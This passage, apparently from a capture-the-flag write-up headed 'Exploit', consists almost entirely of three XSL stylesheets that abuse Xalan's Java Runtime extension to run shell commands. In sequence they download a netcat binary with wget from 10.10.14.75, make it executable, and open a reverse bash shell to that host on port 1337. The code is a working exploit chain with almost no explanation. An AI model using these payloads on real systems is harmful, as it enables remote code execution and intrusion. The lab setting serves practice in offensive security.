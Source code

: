 ## **<span style='color:#ff5555'>Exploit</span>**
***

**This is how my xsl file looks like**

> `rhovelionz1.xsl`

```
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[wget http://10.10.14.75/nc]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```

> `rhovelionz2.xsl`

```
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[chmod +x nc]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```

> `rhovelionz3.xsl`

```
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[./nc -e /bin/bash 10.10.14.75 1337]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```
